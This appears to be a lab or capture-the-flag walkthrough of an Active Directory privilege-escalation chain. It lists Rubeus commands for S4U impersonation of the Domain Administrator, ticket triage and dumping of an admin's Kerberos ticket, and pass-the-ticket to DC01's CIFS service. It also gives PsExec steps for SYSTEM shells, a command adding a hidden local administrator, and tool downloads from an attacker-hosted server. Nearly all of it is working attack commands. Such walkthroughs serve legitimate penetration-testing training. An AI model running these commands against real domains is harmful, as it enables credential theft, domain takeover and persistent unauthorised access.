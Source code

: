 ### Remove newlines and empty space if required (locally on your own machine, if /nowrap fails)
```
cat ticket.txt | sed 's/      //g' | tr -d '\n'
```

### Request TGS impersonating the Domain Administrator on DATA02
```
.\Rubeus.exe s4u /ticket:{ticket} /impersonateuser:Administrator /msdsspn:MSSQL/DATA02 /altservice:CIFS /ptt
```

### Authenticate to DATA02 using PsExec
```
.\PsExec64.exe \\DATA02 -i -s cmd.exe
```

### Add a local user
```
net user {NewUser} {NewUser Password} /add && net localgroup Administrators {NewUser} /add
```

## DC01 ##
### Start shell as NT Authority\SYSTEM
Retrieve PsExec64.exe from ```http://live.sysinternals.com``` or ```http://192.168.0.37``` (PORTAL01 machine) or from your own hosted server (```http://192.168.100.1```)
```
.\PsExec64.exe -i -s cmd.exe
```

### List tickets
```
.\Rubeus.exe triage
```

### Dump ticket of adm_da user
```
.\Rubeus.exe dump /luid:{luid} /nowrap
```

### Request a TGS to the CIFS service on DC01
Execute Rubeus command in there
```
.\Rubeus.exe asktgs /user:adm_da /ticket:{krbtgt_ticket} /service:CIFS/DC01 /ptt
```

### List whether we can read the C-drive on the DC
```
dir \\DC01\C$
```
